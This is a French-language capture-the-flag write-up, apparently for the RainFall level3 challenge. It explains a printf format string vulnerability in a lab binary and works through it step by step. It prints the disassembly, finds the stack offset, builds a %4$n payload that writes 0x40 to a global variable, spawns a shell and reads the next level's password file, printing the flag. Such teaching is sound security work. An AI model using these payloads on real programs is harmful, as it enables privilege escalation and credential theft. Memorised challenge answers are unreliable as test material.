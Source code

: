 # Level3: FORMAT STRING

Première étape — tester le programme

```bash
$ ./level3
a
a
```

Le programme affiche l'entrée.

### Ouvrons le binaire
```s
0804851a <main>:
 804851a:	55                   	push   %ebp
 804851b:	89 e5                	mov    %esp,%ebp
 804851d:	83 e4 f0             	and    $0xfffffff0,%esp
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave  
 8048526:	c3                   	ret

080484a4 <v>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	81 ec 18 02 00 00    	sub    $0x218,%esp
 80484ad:	a1 60 98 04 08       	mov    0x8049860,%eax
 80484b2:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484b6:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484c4:	89 04 24             	mov    %eax,(%esp)
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484d2:	89 04 24             	mov    %eax,(%esp)
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
 80484df:	83 f8 40             	cmp    $0x40,%eax
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    0x8049880,%eax
 80484e9:	89 c2                	mov    %eax,%edx
 80484eb:	b8 00 86 04 08       	mov    $0x8048600,%eax
 80484f0:	89 54 24 0c          	mov    %edx,0xc(%esp)
 80484f4:	c7 44 24 08 0c 00 00  	movl   $0xc,0x8(%esp)
 80484fb:	00
 80484fc:	c7 44 24 04 01 00 00  	movl   $0x1,0x4(%esp)
 8048503:	00
 8048504:	89 04 24             	mov    %eax,(%esp)
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08  	movl   $0x804860d,(%esp)
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave  
 8048519:	c3                   	ret  
```

La première chose que nous pouvons remarquer, c'est que contrairement au niveau précédent nous n'avons pas `gets()` mais `fgets()` (version protégée). Plus loin nous voyons un appel à `printf` particulier : regardons cela de plus près.

```c
void v(void)
{
  char local_20c[520];

  fgets(local_20c, 0x200, stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n", 1, 0xc, stdout);
    system("/bin/sh");
  }
  return;
}
```

- 1ᵉʳ constat : `printf()` prend en paramètre **seulement** le buffer retourné par `fgets()` c'est très dangereux.
- 2ᵉᵐᵉ constat : il existe une condition qui lance un shell (`system`) si `m == 0x40` c'est notre objectif pour obtenir un shell.
- 3ᵉᵐᵉ constat : `m` est une variable globale dans la `.bss` comparée à `0x40` (64).

Comme nous le savons, modifier EAX dans GDB au moment du `cmp` ne suffit pas car le kernel set le **SUIDbinary= RUID**. L'objectif ici est donc de **bypasser la condition à l'exécution** en écrivant la valeur `0x40` dans la variable `m` **depuis** l'exécution normale, via une vulnérabilité de format string.

`fgets` empêche l'overflow classique, donc `ret2ret`/ret-overflow n'est pas applicable ici. En revanche `printf(local_20c)` nous donne une voie : **format string exploit**.

### PRINTF (LIBC) — EXPLOIT FORMAT STRING

`printf` est une très bonne fonction quand elle est utilisée correctement. Exemple sûr :

```c
#include <stdio.h>

int main(void) {
	char buffer[200] = {0};
	fgets(buffer, sizeof(buffer), stdin);
	printf("%s\n", buffer);
}
```

Mais si on fait ceci :

```c
int main(void) {
	char buffer[200] = {0};
	fgets(buffer, sizeof(buffer), stdin);
	printf(buffer); // ⚠️ l'utilisateur contrôle le format
}
```

Alors `printf` interprète la chaîne d'entrée comme **format** : l'attaquant peut utiliser `%x`, `%p`, `%s` pour **lire** la mémoire, ou `%n`, `%hn`, `%hhn` pour **écrire** dans la mémoire.

### Qu'est-ce qu'un "format string exploit" ?

C’est une faille qui arrive quand un programme laisse l’utilisateur écrire directement la phrase que `printf` (ou fonctions similaires) va utiliser pour afficher quelque chose. Imagine que `printf` est une machine qui suit des instructions écrites dans une phrase. Si un utilisateur peut écrire cette phrase, il peut y mettre des instructions que la machine ne devrait pas exécuter.

### Pourquoi c'est dangereux

- `printf("%s", user_input);` → sûr : on affiche la chaîne fournie.
- `printf(user_input);` → dangereux : l’utilisateur peut écrire des marqueurs (`%x`, `%s`, `%n`, …) qui disent à `printf` de lire ou d’écrire dans la mémoire du programme.
- Résultat : fuite d’informations (secrets, adresses) ou modification de la mémoire (changer une variable, forcer un chemin d'exécution).

### Calculez l'offset pour l'attaque

Maintenant que nous avons notre point d'entrée (`printf`) et que nous savons que nous devons bypasser `if (m == 0x40)`, nous allons trouver quel paramètre de notre `printf` contient notre donnée.

```bash
level3@RainFall:~$ ./level3
AAAA%p.%p.%p.%p
AAAA0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141
```

La présence de `0x41414141` (ASCII de `AAAA`) dans la sortie indique que **notre chaîne `AAAA` est présente** à la position d'argument correspondante dans la pile. On utilise donc `%p`/`%x` pour **trouver l'offset** : l'index d'argument de `printf` où se trouve notre donnée.

> _Attention_ : `0x41414141` n'est **pas** automatiquement l'EIP. C'est la valeur `AAAA` trouvée sur la pile. Pour confirmer si l'EIP est écrasé, il faut regarder les registres et la pile dans GDB après un crash.

Maintenant que nous savons que le 4ᵉ paramètre correspond à `AAAA`, on peut utiliser cet offset pour écrire dans la variable `m`.

### Cherchez l'adresse de la variable `m`

Puisque `m` est dans la section `.bss`, on peut trouver son adresse avec `objdump` (ou `readelf`/`nm`). Exemple extrait :

```bash
level3@RainFall:~$ objdump -t ./level3 | grep "\bm\b"
0804988c g     O .bss  00000002 m
```

Ici l'adresse de `m` est `0x0804988c`.

### Créer l'exploit

Principe :
- Placer l'adresse de `m` (little-endian) dans l'entrée pour que `printf` la lise comme argument.
- Imprimer un total de 64 caractères (0x40) puis utiliser `%hhn`/`%n` pour écrire le nombre total d'octets imprimés dans l'adresse `m`.
- Utiliser l'**offset** trouvé auparavant (ici 4) pour indiquer quel argument contient l'adresse.

Exemple de payload :

```bash
python -c 'print b"\x8c\x98\x04\x08" + b"A"*(64-4) + b"%4$n"'
```

Explication :
- `"\x8c\x98\x04\x08"` : adresse de `m` (little-endian).
- `"A"*(64-4)` : on veut que le total des octets imprimés soit 64 ; 4 octets sont déjà comptés par l'adresse, donc on ajoute 60 `A` (ou autre padding) pour atteindre 64.
- `"%4$n"` : on utilise la position 4 (offset) et `%n` pour écrire un octet (la valeur 64) à l'adresse pointée par le 4ᵉ argument.

**Note** : selon l'alignement et la libc, il peut être nécessaire d'ajuster l'offset ou d'utiliser `%n`/`%hn` selon le type de la variable. Les spécificateurs positionnels (`%N$...`) rendent souvent l'exploit plus fiable.

### Exécution (exemple)

```bash
level3@RainFall:~$ (python -c 'print b"\x8c\x98\x04\x08" + b"A"*(64-4) + b"%4$n"'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

Tada ! L'écriture a fonctionné, la condition `m == 0x40` est vraie, le shell est lancé.

```bash
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

Bonne chance et have fun :)

_Pense à tester les offsets dans GDB (ou avec des payloads automatisés) si tu as des différences d'alignement._
